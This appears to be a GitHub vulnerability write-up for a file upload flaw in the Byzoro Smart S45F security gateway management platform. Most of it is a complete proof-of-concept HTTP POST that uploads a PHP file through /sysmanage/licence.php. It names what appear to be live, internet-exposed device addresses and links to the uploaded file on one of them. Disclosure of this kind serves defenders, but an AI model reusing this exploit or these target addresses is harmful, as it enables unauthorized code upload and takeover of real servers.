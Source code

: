 Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet.
Byzro Networks Smart S45F multi-service security gateway intelligent management platform has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official：https://www.byzoro.com/

version:  S45

Vulnerability Path ：/sysmanage/licence.php

Ip：https://103.121.164.62:8443/

poc:
```
POST /sysmanage/licence.php? HTTP/1.1
Host: 202.99.231.122:8443
Cookie: PHPSESSID=26a1775947167e57a44ae5a532938679
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 714
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—

```
<img width="602" alt="image" src="https://github.com/llixixi/cve/assets/144869546/ae4179b9-29d6-489c-9ff2-ce2d3c34c086">

https://103.121.164.62:8443/home/upload/phpinfo.php
<img width="600" alt="image" src="https://github.com/llixixi/cve/assets/144869546/dda02c14-73ba-4fcf-b296-288d3dfed8d6">


